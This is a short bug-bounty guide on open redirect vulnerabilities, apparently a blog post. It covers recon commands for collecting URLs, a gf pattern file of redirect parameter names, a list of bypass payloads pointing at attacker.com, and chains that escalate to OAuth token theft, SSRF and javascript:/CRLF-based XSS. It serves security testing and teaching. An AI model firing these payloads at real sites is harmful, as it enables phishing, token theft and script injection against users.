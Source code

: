 ```yaml
---
layout: post
title: Open Redirection Guide
categories: bughunting 
---
```


### Identify:
* [waybackurls](https://github.com/tomnomnom/waybackurls) + [hakrawler](https://github.com/hakluke/hakrawler) + [gf](https://github.com/tomnomnom/gf)
	
	*1*. ``cat subdomains | waybackurls | tee -a urls``
	
	*2*. ``cat subdomains | hakrawler -depth 3 -plain | tee -a urls``
	
	*3*. ``gf redirect urls``

	using ``redirect.json``:
```json
{
    "flags" : "-HanrE",
    "pattern" : "url=|rt=|cgi-bin/redirect.cgi|continue=|dest=|destination=|go=|out=|redir=|redirect_uri=|redirect_url=|return=|return_path=|returnTo=|rurl=|target=|view=|from_url=|load_url=|file_url=|page_url=|file_name=|page=|folder=|folder_url=|login_url=|img_url=|return_url=|return_to=|next=|redirect=|redirect_to=|logout=|checkout=|checkout_url=|goto=|next_page=|file=|load_file="
}
```
* Google dorks
	``site:domain.com inrul:[PARAMETER]`` using the [parameter list](https://github.com/victoni/Bug-Bounty-Scripts/blob/master/open_redirection_parameters.txt)
* Manual inspection by navigating the webapp and intercepting the requests


### Exploit:
```
* ?redirect=http://example.com
* ?redirect=https://company.com.attacker.com
* ?redirect=https://company.com@attacker.com
* ?redirect=//attacker.com
* ?redirect=http://attacker.com#company.com
* ?redirect=http://attacker.com?company.com
* ?redirect=http://attacker.com/company.com
* ?redirect=http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ

Using special characters:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ 
⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ 
⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ 
⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ 
Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ 
ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ 
⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿ 。
```
## Escalating to other vulnerabilities:
 [Source](https://twitter.com/LooseSecurity/status/1120638007760117760)
```
Open Redirect + Miconfigured OAuth App => OAuth Token Stealing
Open Redirect + Filtered SSRF => SSRF
Open Redirect + CRLFi => XSS
Open Redirect + javascript URI => XSS
```

Escalate to XSS
* `` ?redirect=javascript:alert(1)``
* `` ?redirect=javascript:prompt(1)``

Escalate to XSS using CRLFi
* ``?redirect=java%0d%0ascript%0d%0a:alert(0)``
